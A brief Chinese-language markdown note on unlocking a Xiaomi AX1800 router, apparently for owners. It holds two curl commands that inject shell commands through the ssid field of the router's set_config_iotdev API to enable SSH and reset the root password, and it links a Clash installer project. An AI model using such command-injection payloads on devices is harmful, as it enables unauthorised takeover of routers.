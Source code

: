 # 路由器


## 小米 AX1800

>https://www.right.com.cn/forum/thread-4032490-1-1.html

```shell
# 启用 SSH
curl "http://192.168.31.1/cgi-bin/luci/;stok=1b09f63d038ea376d2641b1e6c2fe456/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B"

# 使用命令 `echo 'admmin\nadmin' | passwd root` 修改 SSH 密码
curl "http://192.168.31.1/cgi-bin/luci/;stok=1b09f63d038ea376d2641b1e6c2fe456/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'xxx123xxx%5Cnxxx123xxx'%20%7C%20passwd%20root%3B"
```

## 安装 Clash

- https://github.com/juewuy/ShellClash

